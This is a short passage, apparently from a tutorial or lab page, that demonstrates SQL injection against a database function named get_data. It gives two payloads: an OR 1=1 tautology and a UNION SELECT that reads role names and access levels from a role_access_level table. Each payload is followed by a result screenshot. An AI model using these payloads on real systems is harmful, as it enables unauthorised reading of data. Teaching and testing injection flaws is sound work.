     SELECT * FROM get_data('1'' OR 1=1 -- ');
<img width="565" alt="2-2-2-1" src="https://user-images.githubusercontent.com/55449630/206282895-a10ae21f-c0cb-4736-a6ab-024a06ecd390.png">

    SELECT * FROM get_data('1'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS INTEGER) FROM role_access_level -- ');
<img width="565" alt="2-2-2-2" src="https://user-images.githubusercontent.com/55449630/206282912-a64c165b-031e-4e35-b8bb-ddd3f365d324.png">

